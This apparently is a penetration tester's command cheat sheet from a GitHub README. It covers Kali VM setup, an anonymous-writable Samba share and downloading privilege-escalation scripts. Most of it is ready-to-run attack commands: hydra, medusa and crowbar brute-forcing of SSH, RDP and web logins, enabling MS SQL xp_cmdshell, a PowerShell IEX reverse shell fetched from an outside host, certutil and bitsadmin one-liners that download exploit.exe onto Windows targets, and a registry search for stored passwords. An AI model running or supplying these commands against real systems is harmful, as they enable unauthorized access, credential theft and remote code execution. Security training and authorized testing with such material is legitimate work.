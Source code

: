 # Command reference


## Kali VM Setup

Commands for easy first-time setup of a Kali/Parrot VM after setting up a new image
<details>
 <summary>Expand</summary>

 ### OpenVPN Client Setup
 After downloading openvpn client configuration (.ovpn):

 ```
 sudo cp client.ovpn /etc/openvpn/[name].conf`
 systemctl [re]start openvpn.service
 systemctl status openvpn@[name].service
 ```

 ### Install/update useful packages and tools
 
 ```
 sudo apt update -y && sudo apt install -y gobuster crowbar metasploit-framework mingw-w64 powershell-empire nishang starkiller python3-pip python3-venv seclists curl enum4linux ffuf gobuster nbtscan nikto nmap onesixtyone oscanner smbclient smbmap smtp-user-enum snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf`
 sudo python3 -m pip install git+https://github.com/Tib3rius/AutoRecon.git
 ```
 
 If gobuster install doesn't work:
 
 ```
 sudo apt install golang -y && go get github.com/OJ/gobuster && sudo cp ~/go/bin/gobuster /usr/local/bin
 ```

 ### Setup samba share for easy file transfers
 This makes file transfers between VMs/hosts easy if your Kali VM isn't local, like if it's setup on a server and you need to transfer files from another machine on the network.  This will open a share called "kali_share" under /mnt/kali_share with anonymous access allowed, which can obviously be a huge security risk, so configure it with creds and be careful about what you put in the share if you're worried about that.
 
 <details>
  <summary>Samba Config File</summary>
  
  ```
  [global]
  
  workgroup = WORKGROUP
  server string =  Windows ME
  netbios name = Workstation 
  security = user
  map to guest = bad user
  name resolve order = bcast host
  dns proxy = no
  bind interfaces only = yes


  [kali_share]
     path = /mnt/kali_share
     writable = yes
     browseable = yes
     guest ok = yes
     guest only = yes
     read only = no
     create mode = 0777
     directory mode = 0777
     force user = nobody
  ```
 </details>  
 
 Setup your Samba server with the above config file and start the service
 ```
 mkdir /mnt/kali_share
 sudo cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
 sudo cp new.conf /etc/samba/smb.conf
 sudo systemctl [re]start smbd.service
 sudo systemctl enable smbd.service
 ```
 
 ### Misc setup commands
 ```
 sudo updatedb
 sudo systemctl enable ssh openvpn apache2
 sudo curl https://raw.githubusercontent.com/harringtonjd0/security/main/.vimrc -o ~/.vimrc
 sudo curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -o /var/www/html/linpeas.sh
 sudo wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASany.exe -O /var/www/html/winpeasany.exe
 
 # Disable system beep because it's annoying
 sudo modprobe -r pcspkr
 sudo bash -c 'echo "blacklist pcspkr" >> /etc/modprobe.d/blacklist.conf'
 ```
</details>

## Network Brute Force Commands

### htacess
```
medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir
```

### RDP
```
crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1
```

### SSH
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v
```

### HTTP Post
```
hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```


## MS SQL RCE and Rev shell

```
sqsh -U sa -S <ip>:<port>

// Test xp cmdshell
xp_cmdshell 'whoami'
go
```

If necessary, enable xp_cmdshell
```
EXEC SP_CONFIGURE 'show advanced options',1
reconfigure
go


EXEC SP_CONFIGURE 'xp_cmdshell',1
reconfigure
go
```

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

```
xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
go
```

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
```
john --rules --wordlist=wordlist.txt hashes.txt
john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt
```

## John Wordlist Rules
```
[List.Rules:Wordlist]
$[0-9]
$[0-9]$[0-9]
cAz"[0-9]"
cAz"[0-9][0-9]"
cAz"[£!$]"
cAz"[0-9][£!$]"
```

#### or add to a custom rules list like [List.Rules:MyRule]
```
john --rules=MyRule --wordlist=wordlist.txt hashes.txt
```

 a good one to use is --rules=Jumbo



## Windows Misc
### Windows Files Transfers
HTTP
```
certutil.exe -urlcache -f http://10.10.10.10/exploit.exe bad.exe

bitsadmin /transfer update /download /priority normal http://10.10.10.10/exploit.exe C:\Windows\Temp\exploit.exe

powershell -c 'Invoke-WebRequest http://10.10.10.10/exploit.exe -outfile C:\Windows\Temp\exploit.exe'

powershell -c '(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/exploit.exe ", "C:\Windows\Temp\exploit.exe")'

```
SMB
```
// If you don't have an SMB set up, use impacket
impacket-smbserver export /tmp

// cmd.exe
net use \\10.10.10.10\export 
copy \\10.10.10.10\export\exploit.exe C:\Windows\Temp\exploit.exe
```

### Search through registry for "pass" in value name
```
reg query HKLM /f pass /t REG_SZ /s
```
